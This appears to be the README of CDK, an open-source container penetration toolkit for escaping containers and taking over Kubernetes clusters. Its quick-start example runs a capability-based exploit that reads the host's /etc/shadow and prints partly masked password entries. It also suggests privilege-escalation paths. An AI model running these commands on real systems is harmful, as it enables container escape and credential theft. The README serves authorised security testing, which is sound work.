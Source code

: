 ## CDK <https://github.com/cdk-team/CDK>

![Language](https://img.shields.io/badge/Language-CDK-blue)
![Author](https://img.shields.io/badge/Author-cdkteam-orange)
![GitHub stars](https://img.shields.io/github/stars/cdk-team/CDK.svg?style=flat&logo=github)
![Version](https://img.shields.io/badge/Version-V1.4.0-red)
![Time](https://img.shields.io/badge/Join-20210223-green)


# CDK - Zero Dependency Container Penetration Toolkit

English | [简体中文](https://github.com/cdk-team/CDK/wiki/CDK-Home-CN)

![png](https://user-images.githubusercontent.com/7868679/177925206-8d83dc95-0f2f-4d61-9a45-0d43b1b0468f.png)

## Legal Disclaimer

Usage of CDK for attacking targets without prior mutual consent is illegal.
CDK is for security testing purposes only.

## Overview

CDK is an open-sourced container penetration toolkit, designed for offering stable exploitation in different slimmed containers without any OS dependency. It comes with useful net-tools and many powerful PoCs/EXPs and helps you to escape container and take over K8s cluster easily.

## Quick Start

Run **`cdk eva`** to get evaluate info and a recommend exploit, then run **`cdk run`** to start the attack.

```
> ./cdk eva --full

[*] Maybe you can exploit the *Capabilities* below:
[!] CAP_DAC_READ_SEARCH enabled. You can read files from host. Use 'cdk run cap-dac-read-search' ... for exploitation.
[!] CAP_SYS_MODULE enabled. You can escape the container via loading kernel module. More info at https://xcellerator.github.io/posts/docker_escape/.
Critical - SYS_ADMIN Capability Found. Try 'cdk run rewrite-cgroup-devices/mount-cgroup/...'.
Critical - Possible Privileged Container Found.

> ./cdk run cap-dac-read-search

Running with target: /etc/shadow, ref: /etc/hostname
ubuntu:$6$*******:19173:0:99999:7:::
root:*:18659:0:99999:7:::
daemon:*:18659:0:99999:7:::
bin:*:18659:0:99999:7:::
```
